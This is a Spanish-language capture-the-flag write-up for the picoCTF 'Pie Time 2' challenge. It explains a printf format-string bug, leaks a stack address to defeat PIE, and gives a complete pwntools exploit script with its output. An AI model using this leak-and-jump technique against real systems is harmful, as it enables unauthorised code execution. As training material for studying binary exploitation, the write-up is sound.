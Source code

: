 # Pie Time 2

En este ejercicio nos ofrecen un binario y su código en C.

```c
./vuln        
Enter your name:%p
0xa70
 enter the address to jump to, ex => 0x12345: 0x0
Segfault Occurred, incorrect address.
```

El programa nos deja introducir un input y luego nos pide una dirección a la que saltar.

El binario tiene una vulnerabilidad de format string:

```c
printf("Enter your name:");
fgets(buffer, 64, stdin);
printf(buffer);
```

El programa tiene una función de victoria `win`:

```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}
```

Parece sencillo, simplemente hay que poner la dirección de la función `win` para resolver el reto. Pero hay un problema, el binario tiene `PIE` activado:

```c
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Tenemos que descubrir primero cual es la dirección base del binario. Para esto podemos intentar leakear gracias al format string la dirección a una instrucción del programa.

Para esto podemos con un fuzzer sacar direcciones del stack y intentar encontrar una que sirva. Para no probar todo lo que aparece, las direcciones que interesan suelen empezar por 555 o estar cerca.

```c
. . .
1: b'AAAAAAA0x3125414141414141\n'  // Parametro controlable
. . .
4: b'AAAAAAA0x5555555592ac\n' // Interesante
. . .
19: b'AAAAAAA0x555555555441\n' // Intereante
. . .
```

```c
pwndbg> info symbol 0x555555555441
main + 65 in section .text of /home/ub1cu0/Desktop/picoCTF/pie_time_2/vuln_patched
```

Esta sirve! Vamos a calcular un offset para que pwntools pueda saber donde está la base del binario:

```c
pwndbg> piebase
Calculated VA from /home/ub1cu0/Desktop/picoCTF/pie_time_2/vuln_patched = 0x555555554000

offset = 0x555555555441 - 0x555555554000 = 0x1441
```

Ahora ya podemos hacer el script:

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF('./vuln_patched')
context.binary = exe

LEAK_OFFSET = 0x1441

def conn():
    if args.LOCAL:
        return process([exe.path])
    return remote('rescued-float.picoctf.net', 65508)

def main():
    r = conn()

    format = b'%p ' * 19
    r.sendlineafter(b'Enter your name:', format)

    leak_line = r.recvline().decode().strip()
    leak      = leak_line.split()[18]
    log.info(f'Leak: {leak}')

    pie_base = int(leak, 16) - LEAK_OFFSET
    exe.address = pie_base
    win = exe.symbols.win
    log.info(f'PIE base: {hex(pie_base)}')
    log.info(f'win() addr: {hex(win)}')

    r.sendline(hex(win).encode())

    r.interactive()

if __name__ == '__main__':
    main()
```

```c
   ~/Desktop/picoCTF/pie_time_2 ❯ python3 solve.py      
[*] '/home/ub1cu0/Desktop/picoCTF/pie_time_2/vuln_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to rescued-float.picoctf.net on port 59789: Done
[*] Leak: 0x5910d83d6441
[*] PIE base: 0x5910d83d5000
[*] win() addr: 0x5910d83d636a
[*] Switching to interactive mode
 enter the address to jump to, ex => 0x12345: You won!
picoCTF{SECRETO}
```

Tenemos la flag!

